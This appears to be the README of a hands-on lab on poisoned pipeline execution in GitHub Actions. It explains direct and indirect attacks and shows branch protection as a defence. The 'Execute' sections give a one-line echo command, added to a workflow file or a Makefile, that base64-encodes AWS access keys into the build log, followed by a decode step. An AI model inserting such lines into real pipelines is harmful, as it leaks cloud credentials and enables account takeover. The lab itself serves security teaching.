


# CI CD Risks - Pipeline Poisoning Attack Lab

## Prep
1. Within AWS Account, create Amazon Elastic Container Registry named `cicd-sec`
1. Add Github Repository Secrets 
    1. `AWS_ACCESS_KEY_ID`
    1. `AWS_REGION`
    1. `AWS_SECRET_ACCESS_KEY`
    1. `REPO_NAME`
    1. `ECR_REGISTRY`
1. Ensure Branch Protection is disabled within GitHub Repository


## Understanding Direct PPE

Direct PPE (D-PPE): In a D-PPE scenario, the attacker modifies the CI config file in a repository they have access to, either by pushing the change directly to an unprotected remote branch on the repo, or by submitting a PR with the change from a branch or a fork. Since the CI pipeline execution is triggered off of the “push” or ”PR” events, and the pipeline execution is defined by the commands in the modified CI configuration file, the attacker’s malicious commands ultimately run in the build node once the build pipeline is triggered.



## Execute Direct-PPE 

Add line of code to extract `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` during Pipeline execution after `make build` within `.github\workflows\dppe.yaml` 

```
echo "accesskey: ${{ env.AWS_ACCESS_KEY_ID }}  secretkey: ${{ secrets.AWS_SECRET_ACCESS_KEY }}" | base64
```

Extract Output from GitHub Workflow Output and 

```
echo "<ENCODED_SECRETS>" | base64 -d
```

example output
```
echo "YWNjZXNza2V5OiBleGFtcGxlLWFjY2VzcyBrZXkgIHNlY3JldGtleTogZXhhbXBsZS1zZWNyZXQta2V5Cg==" | base64 -d
accesskey: example-access key  secretkey: example-secret-key
```

## Protect against Direct-PPE
1. Enable Branch Protection and enable `Require a pull request before merging` and `Require approvals` and `Do not allow bypassing the above settings`

## Understanding Indirect PPE

Indirect PPE (I-PPE): In certain cases, the possibility of D-PPE is not available to an adversary with access to an SCM repository:
- If the pipeline is configured to pull the CI configuration file from a separate, protected branch in the same repository.
- If the CI configuration file is stored in a separate repository from the source code, without the option for a user to directly edit it.
- If the CI build is defined in the CI system itself – instead of in a file stored in the source code.

In such a scenario, the attacker can still poison the pipeline by injecting malicious code into files referenced by the pipeline configuration file, for example:

- Makefile
- build.sh
- code tests etc..

Now, the scenario is - we cannot directly push into main branch, it will be protected, we have to find other ways to inject the malicious code.




## Execute Indirect-PPE 
1. Create new branch
1. Edit `Makefile` and add line below at end  and commit and sync changes
1. Compare & Open Pull Request

```
echo "accesskey: ${AWS_ACCESS_KEY_ID}  secretkey: ${AWS_SECRET_ACCESS_KEY}" | base64
```
